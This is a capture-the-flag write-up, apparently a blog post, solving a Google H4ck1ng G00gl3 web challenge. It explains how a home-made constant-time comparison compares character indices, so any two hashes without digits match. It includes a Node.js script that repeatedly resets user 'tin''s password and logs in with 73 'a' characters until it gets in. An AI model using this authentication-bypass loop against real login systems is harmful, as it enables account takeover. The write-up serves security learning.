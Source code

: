 #+title: H4ck1ng G00gl3 ep004 challenge 02
#+hugo_publishdate: 2022-11-20
#+options: tags:nil

* Table of Contents                                               :TOC_5_org:
- [[Introduction][Introduction]]
- [[Learning Journey][Learning Journey]]

* Introduction

[[https://h4ck1ng.google/][H4ck1ng G00gl3]] is a series of security challenges published on *October 2022* where the only way to win is to think like a hacker. In this post, I explain how I solved *ep004 challenge 02*. Category *Web Exploitation*.

* Learning Journey

#+attr_html: :class centered-image
[[/images/h4ck1ng00gl3/ep004ch02/intro.png]]

In this challenge, we are given some code. We have to find the vulnerability and login as "tin". Let's check the code.

#+attr_html: :class centered-image
[[/images/h4ck1ng00gl3/ep004ch02/hashed-passwords.png]]

I found two hardcoded users and their hashed passwords in the "users.js" file. My first idea was to try and bruteforce somehow the password for "tin", but to no avail. I also searched for the value in some rainbow tables on the internet, but it didn't work out.

In that file, I also found a function to reset the password with a comment saying: "we don't allow admins to reset passwords". "tin" is not an admin, and that comment makes me think it has to be an important detail. However, I don't see how this helps me now, so I wrote it down and continued reading the code.

#+attr_html: :class centered-image
[[/images/h4ck1ng00gl3/ep004ch02/reset-password.png]]

I found another interesting file, "safe-equals.js". It's strange because *the developers programmed their own version of constant time string comparison*. Programming your own cryptographic functions is dangerous. For sure, there must be some vulnerability hidden here. At first glance, it seems to be correct. I didn't pay the required attention to the code. I read it fast and thought it was comparing each letter of the string position by position, regardless of the first position where the letters differed.

#+attr_html: :width 1000px
#+attr_html: :class centered-image
[[/images/h4ck1ng00gl3/ep004ch02/safe-equal.png]]

That made me lose a lot of time double-checking other parts of the code. I went to ask the community. Effectively, the *"safeEqual" function is vulnerable*. I had to come back and read it again. This time I decided to check line by line and check on the internet the documentation for every function. After that, I understood the problem. It isn't comparing each value stored in each position of the strings passed as input. Instead, *it compares the indices of the first appearance of every number that the loop is iterating*. I'm not sure I explained myself there, so let me put it in an example.

#+begin_src javascript
  // Example: call the function with two strings of the same length
  function safeEqual('abc123', 'a1b2c3') {
      let match = true;

      // For our input, this condition is not met
      if(a.length !== b.length) {
          // This is not executed
          match = false;
      }

      const l = a.length; // l = 6
      // Iterate from 0 to 5
      for (let i = 0; i < l; i++) {
        // Compare the index of value "i" in both strings.
        // For i = 0 -> a.indexOf(0) === b.indexOf(0) -> -1 === -1 -> true
        // For i = 1 -> a.indexOf(1) === b.indexOf(1) -> 4 === 1 -> false
        // ...
        match &&= a.indexOf(i) === b.indexOf(i);
      }


    return match;
  }

  safeEqual('abc123', 'a1b2c3') // returns false
  safeEqual('abcd', 'qwer') // returns true
  safeEqual('ab12c', 'qw121') // returns true
#+end_src

The function checks that the first occurrence of each number in both strings returns the same index. If you think about it, that means that any two strings without numbers will return true. *The trick then is to reset "tin" password until it creates a hash without numbers. Then, we must log in with a password that produces a hash without numbers.*

First, I searched for a password that produced a hash without numbers. It was simple. I just computed in a for loop the hash value for strings of different lengths with the letter "a" (e.g., "a", "aa", "aaa"). The result was that a *string containing seventy-three "a" produces a hash without numbers*. That is our password. The second step was creating a script that automatically called the reset password endpoint and then tried to log in with the password we computed.

#+begin_src javascript
  const requestPromise = require('request-promise').defaults({ jar: true });

  var loginOptions = {
      method: 'POST',
      uri: 'https://vrp-website-web.h4ck.ctfcompetition.com/login',
      form: {
          username: 'tin',
          password: 'a'.repeat(73)
      },
      followAllRedirects: true,
  };

  var resetOptions = {
      method: 'POST',
      uri: 'https://vrp-website-web.h4ck.ctfcompetition.com/reset-password',
      form: {
          username: 'tin'
      },
  };

  (async function () {
      let i = 0;
      let incorrect = true;
      while (incorrect) {
          const loginResponse = await requestPromise(loginOptions);
          incorrect = /Incorrect/.test(loginResponse);
          console.log(i);
          i++;

          if (!incorrect) {
              console.log(loginResponse);
              break;
          }

          await requestPromise(resetOptions);
      }
  })();
#+end_src

Executing the script returns the response with the flag. With that, we completed the challenge.

#+attr_html: :class centered-image
[[/images/h4ck1ng00gl3/ep004ch02/intro.png]]
